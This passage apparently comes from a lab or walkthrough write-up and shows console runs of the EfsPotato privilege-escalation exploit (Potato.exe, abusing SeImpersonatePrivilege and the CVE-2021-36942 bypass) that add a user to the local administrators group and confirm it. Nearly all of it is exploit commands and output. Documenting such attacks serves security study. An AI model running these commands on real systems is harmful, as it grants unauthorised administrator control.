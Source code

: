 
C:\xampp\htdocs>Potato.exe "net localgroup administrators lili /add"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: HOSTEVASION\evader
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=f3fb80)
[+] Get Token: 844
[!] process with pid: 1884 created.
==============================
The command completed successfully.


C:\xampp\htdocs>




<img width="1331" height="501" alt="image" src="https://github.com/user-attachments/assets/40b0d737-645e-4cfc-8662-1c21dfbc816c" />


C:\xampp\htdocs>Potato.exe "net localgroup administrators"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: HOSTEVASION\evader
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=b13690)
[+] Get Token: 844
[!] process with pid: 5548 created.
==============================
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
lili
The command completed successfully.


C:\xampp\htdocs>


<img width="1326" height="413" alt="image" src="https://github.com/user-attachments/assets/44f14cd1-ed20-4f62-a563-5786b5cc9a89" />


<br>
<br>

<h3>xfreerdp</h3>
